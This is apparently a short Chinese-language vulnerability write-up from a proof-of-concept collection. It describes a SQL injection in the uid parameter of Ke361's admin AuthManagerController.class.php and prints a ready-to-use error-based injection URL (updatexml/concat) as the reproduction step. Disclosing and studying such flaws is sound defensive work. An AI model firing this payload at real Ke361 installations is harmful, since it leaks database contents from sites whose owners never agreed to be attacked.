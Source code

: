 # 

# Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`

![image-20220518153054883](./images/202205181530959.png)

```
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153112030](./images/202205181531098.png)
